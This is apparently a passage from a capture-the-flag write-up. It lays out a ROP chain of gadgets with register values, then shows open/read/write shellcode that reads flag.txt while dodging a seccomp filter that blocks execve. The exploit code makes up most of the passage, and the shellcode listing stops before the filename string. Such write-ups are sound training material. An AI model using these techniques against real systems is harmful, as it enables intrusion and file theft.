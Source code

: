 ```assembly
ret

< [rsp+0x00] padding >
< [rsp+0x08] padding >
< rbx: 0x004040b0 >
< rbp: 0x004040b0 >
< r12: 0x004040b0 >

@8ff1d
pop rdi
ret

< rdi: 0x0 (stdin) >

@8ef1b
pop rdx
ret

< rdx: 0x10000000 >

@61cd00
mov eax, DWORD PTR fs:0x18
test eax, eax
jne 0x61cd20
syscall

< [rsp+0x00] 0x4040b0 (start of shellcode) >
```

Seccomp is still active and is going to block all syscalls to ```execve``` and ```execveat```.
I guess there are two options for this problem

- 1. finding a bug in seccomp configuration (misconfiguration)
- 2. crafting shellcode without those syscalls

Since I could not find any bugs in the configuration, I decided to go with the second option: Crafting
a shellcode to ```open```, ```read``` then ```write``` the file of interest, thus avoiding blocked
syscalls. From the previously solved challenges, we can assume that the flag will be in ```flag.txt``` 

```assembly
jmp short trampoline

sc_open_file:
pop rdi
xor rsi, rsi
mov eax, 0x02
syscall

sc_read_file:
lea rsi, [rdi + 0xb]
mov rdi, rax
xor rax, rax
mov rdx, 0x20
syscall

sc_write_file:
mov rdi, 0x01
mov rax, 0x01
syscall

trampoline:
call sc_open_file

```